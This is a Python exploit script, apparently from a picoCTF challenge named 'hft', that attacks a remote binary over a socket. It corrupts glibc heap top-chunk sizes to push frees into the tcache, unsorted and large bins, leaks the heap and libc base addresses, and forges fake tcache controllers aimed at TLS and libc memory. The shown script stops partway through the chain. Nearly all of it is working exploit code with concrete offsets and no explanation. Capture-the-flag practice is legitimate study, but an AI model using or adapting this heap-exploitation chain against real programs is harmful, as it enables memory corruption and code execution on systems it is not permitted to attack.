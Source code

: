 ```python
libc = ELF("./libc.so.6")
# libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

sock = Socket("nc tethys.picoctf.net 50123")
# sock = Process("./hft")

sock.sendafter(":[PKT_RES]\n", p64(0xD28))
sock.sendline(p64(0x0) + b"A" * 0xD18 + p32(0x41))  # tamper the size of top chunk

# _int_free: tcachebins[0x20]
sock.sendafter(":[PKT_RES]\n", p64(0xBB0))
sock.sendline(p64(0x0) + b"B" * 0xBA8 + p32(0x441))  # tamper the size of top chunk

# _int_free: unsortedbin
sock.sendafter(":[PKT_RES]\n", p64(0x419))
sock.sendline(p64(0x3)[:-1])

# heap base address leak
sock.sendafter(":[PKT_RES]\n", p64(0x19))
sock.sendline(p64(0x1)[:-1])
sock.recvuntil(":[")
leak = sock.recvuntil("]\n", drop=True)
# logger.info(f"heap leak address: {hex(u64(leak))}")
heap_base = u64(leak) - 0x21BC0
logger.info(f"heap base address: {hex(heap_base)}")

sock.sendafter(":[PKT_RES]\n", p64(0x780))
sock.sendline(p64(0x0) + b"C" * 0x778 + p32(0x441))  # tamper the size of top chunk

# _int_free: largebins
sock.sendafter(":[PKT_RES]\n", p64(0xBB0))
sock.sendline(p64(0x0) + b"D" * 0xBA8 + p32(0x441))  # tamper the size of top chunk

# _int_free: largebins
sock.sendafter(":[PKT_RES]\n", p64(0xBB0))
sock.sendline(p64(0x3)[:-1])

# fake tcachebins controller no.1
sock.sendafter(":[PKT_RES]\n", p64(0x90))
sock.sendline(
    p64(0x1) + p64(0x1) + p64(0x0) * 0xF + p64(heap_base + 0x65BC0)[:-1]
)  # largebins address

# allocate front of tls & tamper the fake tcachebins controller no.1
sock.sendafter(":[PKT_RES]\n", p64(0x22000))
sock.sendline(
    p64(0x0) + b"E" * 0x236D8 + p64(heap_base + 0x21C10)[:-1]
)  # -> fake tcachebins controller no.1

# libc base address leak
sock.sendafter(":[PKT_RES]\n", p64(0x18))
sock.sendline(p64(0x1)[:-1])
sock.recvuntil(":[")
leak = sock.recvuntil("]\n", drop=True)
# logger.info(f"libc leak address: {hex(u64(leak))}")
libc.base = u64(leak) - 0x21A0D0

# fake tcachebins controller no.2
sock.sendafter(":[PKT_RES]\n", p64(0x90))
sock.sendline(
    p64(0x1) + p64(0x1) + p64(0x0) * 0xF + p64(libc.base + 0x21AA10)[:-1]
)  # libc address (on stack address)

```